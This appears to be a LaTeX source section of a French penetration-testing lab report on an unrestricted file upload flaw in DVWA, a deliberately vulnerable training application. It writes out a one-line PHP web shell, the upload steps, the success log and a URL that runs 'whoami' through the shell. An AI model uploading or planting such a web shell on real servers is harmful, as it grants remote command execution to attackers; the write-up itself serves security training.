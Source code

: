 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
	
	\section{A08: Software or Data Integrity - File Upload}
	
	\subsection{Description}
	
	L'absence de validation stricte des fichiers uploadés permet l'insertion 
	de code exécutable sur le serveur, conduisant à une compromission complète.
	
	\subsection{Exploitation}
	
	\begin{enumerate}
		\item Créer un fichier PHP malveillant :
		\begin{lstlisting}[language=php,numbers=none,caption=Web Shell PHP,frame=none]
			<?php system($_GET['cmd']); ?>
		\end{lstlisting}
		\item Accéder à : \textbf{Vulnerabilities → File Upload}
		\item Sélectionner le fichier \texttt{shell.php}
		\item Cliquer \textbf{Upload}
	\end{enumerate}
	
	\subsection{Résultats}
	
	\begin{lstlisting}[caption=Confirmation d'Upload Réussi,style=logstyle]
		../../hackable/uploads/shell.php successfully uploaded!
	\end{lstlisting}
	
	\subsection{Exécution de Commandes}
	
	Accéder à l'URL : \texttt{http://192.168.10.100:8080/DVWA/uploads/shell.php?cmd=whoami}
	
\end{document}
